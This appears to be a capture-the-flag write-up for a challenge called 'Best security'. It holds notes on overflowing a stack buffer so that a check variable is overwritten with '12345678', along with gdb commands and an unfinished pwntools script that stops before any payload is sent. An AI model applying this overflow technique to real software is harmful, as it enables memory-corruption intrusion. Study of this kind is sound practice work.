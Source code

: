 Best security
===========================

General overview of problems faced
Best security:
Need to over flow the buf and write to var_11 as "12345678"

in hex it is:

31 32 33 34 35 36 37 38

In big endian it is
0x3132333435363738

Little endian it is:

buff size = 0x87

var11 is at 0x7ffd533b0e27.
rbp = 0x7ffd533b0e30
rbp = 0x7ffd533b0da0

commands:
x/20xg $rsp

set disassembly-flavor intel

-------------------------------------

Script/Command used
------------------

```
from pwn import *


PROGRAM_PATH = (Path(__file__).parent / "bestsecurity").resolve().__str__()
BUFF_SIZE = 0x87
# BUFF_SIZE = 0x88
# CANARY = 123456789
CANARY = "3132333435363738"

gdb_script = """
b *main
b *check_canary
b *check_canary+69
b *check_canary+39

c
"""


# FullPath
print(f"Program path is: {PROGRAM_PATH}")
print("____________________________________")


# TODO: Add the ip address here later!
def start(argv=[], *a, **kwargs):
    if args.GDB:
        return gdb.debug([PROGRAM_PATH] + argv, gdbscript=gdb_script, *a, **kwargs)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kwargs)
    else:
        return process([PROGRAM_PATH] + argv, *a, **kwargs)


io = start()
res = io.recvlines(1)
```